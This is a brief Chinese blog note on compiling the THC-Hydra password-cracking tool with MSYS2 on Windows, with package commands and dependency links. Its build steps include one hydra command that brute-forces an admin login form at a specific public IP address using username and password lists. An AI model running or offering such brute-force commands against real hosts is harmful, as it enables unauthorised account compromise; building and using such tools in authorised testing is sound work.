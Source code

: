 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2019-03-01T14:11:28+08:00
title: 构建 hydra
---
```


<!--more-->

Updated on 2019-03-01

> [MSYS2](https://mirrors.ustc.edu.cn/help/msys2.html)
>
> [hydra](https://github.com/vanhauser-thc/thc-hydra/archive/master.zip)

## Step
```bash
D:\Work\Download\thc-hydra-master>

pacman -Syu
pacman -S --noconfirm --needed gcc make openssl-devel

./configure && make

hydra -V -F -L username.txt -P password.txt -o ok.txt -t 20 'http-post-form://222.69.159.53:80/cm_admin/login.aspx:txtloginid=^USER^&txtpsw=^PASS^:F=password incorrect!:H=User-Agent\: wget'
```

```bash
pacman -Ss gcc #搜索软件包
pacman -Sg mingw-w64-x86_64-toolchain #查看软件组
```

## Reference
* 依赖：
  * msys-2.0.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/msys2-runtime-3.0.7-3.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/msys2-runtime-3.0.7-3-x86_64.pkg.tar.xz)
  * msys-z.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/zlib-1.2.11-1.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/zlib-1.2.11-1-x86_64.pkg.tar.xz)
  * msys-ssl-1.1.dll, msys-crypto-1.1.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/openssl-1.1.1.c-1.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/libopenssl-1.1.1.c-1-x86_64.pkg.tar.xz)
* [MSYS2](https://www.msys2.org)
